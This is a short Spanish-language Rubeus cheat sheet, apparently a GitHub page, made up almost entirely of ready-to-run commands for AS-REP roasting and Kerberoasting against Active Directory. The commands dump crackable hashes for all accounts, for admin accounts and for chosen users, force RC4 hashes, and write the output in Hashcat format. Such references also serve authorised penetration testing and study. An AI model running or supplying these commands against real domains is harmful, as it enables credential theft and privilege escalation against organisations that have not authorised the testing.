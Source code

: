 # Rubeus Cheat Sheet

#### ASREPRoast Attack
```console
Rubeus.exe asreproast /nowrap
```

#### ASREPRoast Attack a un usuario en especifico y en formato Hashcat
```console
Rubeus.exe asreproast /user:<USER> /nowrap /format:hashcat
```

#### Saber si hay cuentas Kerberoastables
```console
Rubeus.exe kerberoast /stats
```

#### Kerberoasting Attack a todas las cuentas y guardar los hashes en un archivo
```console
Rubeus.exe kerberoast /nowrap /outfile:hash
```

#### Kerberoasting Attack, obtener los hashes de todas las cuentas admins
```console
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Kerberoasting Attack, para un usuario en especifico que tenga el SPN configurado
```console
Rubeus.exe kerberoast /user:<USER-NAME> /nowrap
```

#### Kerberoasting Attack, para un usuario en especifico que tenga el SPN configurado pero que el modo Hash que nos de sea siempre RC4
```console
Rubeus.exe kerberoast /tgtdeleg /user:<USER-NAME> /nowrap
```

#### Kerberoasting Attack especificando usuario y contraseña de un usuario
```console
Rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD> /outfile:hash
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)